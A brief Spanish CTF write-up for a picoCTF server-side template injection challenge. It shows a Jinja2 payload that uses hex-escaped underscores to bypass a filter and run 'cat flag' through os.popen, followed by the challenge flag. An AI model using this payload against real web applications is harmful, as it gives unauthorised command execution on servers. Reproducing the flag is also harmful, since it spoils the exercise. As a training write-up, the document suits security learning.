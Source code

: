 ## Descripción del reto


## Solución

- Nos muestra la pagina de inicio.
![[Pasted image 20251009210557.png]]

- Introduce esta inyección para vulnerar la pagina.
```
{{ config | attr('\x5f\x5fclass\x5f\x5f') | attr('\x5f\x5finit\x5f\x5f') | attr('\x5f\x5fglobals\x5f\x5f') | attr('\x5f\x5fgetitem\x5f\x5f')('os') | attr('popen')('cat flag') | attr('read')() }}
```

- De esta manera nos dará la pagina.
![[Pasted image 20251009210743.png]]

picoCTF{sst1_f1lt3r_byp4ss_a9824e27}

## Notas


## Referencia